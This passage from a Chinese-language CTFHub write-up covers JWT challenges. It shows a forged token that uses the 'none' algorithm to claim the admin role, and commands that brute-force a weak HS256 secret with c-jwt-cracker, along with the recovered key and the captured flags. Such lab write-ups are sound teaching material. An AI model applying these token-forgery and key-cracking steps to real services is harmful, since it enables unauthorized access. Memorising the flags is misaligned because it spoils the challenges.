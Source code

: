 得到flag：`ctfhub{a954fc41c255af77e5c2ab4d}`

### 3.3 无签名

> 一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。尝试找到 flag。

还是先使用admin登陆进去。

![image-20210808165509225](CTFHUB%E8%BF%9B%E9%98%B6.assets/image-20210808165509225.png)

这里估计是要把role改成admin，然后还要顺利通过验证。

这里将alg改成空，然后role改成admin。

> 这里有个需要注意的地方：最后构造的token最后一段不能有值，但是必须把最后一段标记出来。也就是说，我们构造的token最后要留一个`.`

```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIsCiAgInBhc3N3b3JkIjogImFkbWluIiwKICAicm9sZSI6ICJhZG1pbiIKfQ.
```

得到flag：`ctfhub{a4c5bb424d772731c77c84a4}`

### 3.4 弱密钥

这里使用`c-jwt-cracker-master`进行爆破。

[brendan-rius/c-jwt-cracker: JWT brute force cracker written in C (github.com)](https://github.com/brendan-rius/c-jwt-cracker)

跑出来结果：

```
docker build . -t jwtcrack
docker run -it --rm jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.aCHZ32oagp2J2-tyub6C5_Qr_p8RBzrT8cNcQLbbzVw
Secret is "dzqi"
```

直接构造token。
